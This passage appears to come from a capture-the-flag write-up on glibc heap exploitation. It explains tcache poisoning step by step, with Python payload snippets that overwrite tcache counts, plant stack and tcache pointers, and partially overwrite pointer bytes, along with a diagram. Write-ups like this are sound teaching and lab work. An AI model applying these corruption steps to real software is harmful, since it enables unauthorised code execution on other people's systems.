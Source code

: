 ```
```

Now if we malloc(0x38), we can write arbitrary contents to the tcache. First, we overwrite the counts with big numbers so malloc never thinks the tcache is empty:

```python
# pad to start of counts
p.send(b"T" * 0x10)

# write some nice big counts
p.send(b"\x42" * 0x80)
```

`tcache[0x60]` has our pointer into the stack. We fill `tcache[0x20]` and we fill `tcache[0x40]` with pointers to `tcache[0x80]` (we ignore odd-numbered elements to avoid corrupting things we care about when malloc writes the `key` field):

```python
p.send(p64(tcache_80_addr))
p.send(p64(0))

p.send(p64(tcache_80_addr))
p.send(p64(0))
```

```
      +--------------+
      | tcache[0x20] |-------------\
      +--------------+             |
      | tcache[0x30] |             |
      +--------------+             |
      | tcache[0x40] |----------\  |
      +--------------+          |  |
      | tcache[0x50] |          |  |
      +--------------+          |  |
      | tcache[0x60] |-->STACK  |  |
      +--------------+          |  |
      | tcache[0x70] |          |  |
      +--------------+          |  |
      | tcache[0x80] |<---------+--/
      +--------------+
```

We also overwrite the bottom bits of `tcache[0x40]` so that it points to an address that is hopefully higher up on the stack:

```python
p.send(b"\x00\xe0\n")
```

Then, we malloc `tcache[0x40]`, giving us a pointer to `tcache[0x80]` and letting us continue writing tcache entires without clobbering the entire stack address. Write a pointer to `tcache[0x60]` into `tcache[0x80]`

```python
p.send(b"38")
p.send(p64(tcache_60_addr))
p.send(p64(0))
```
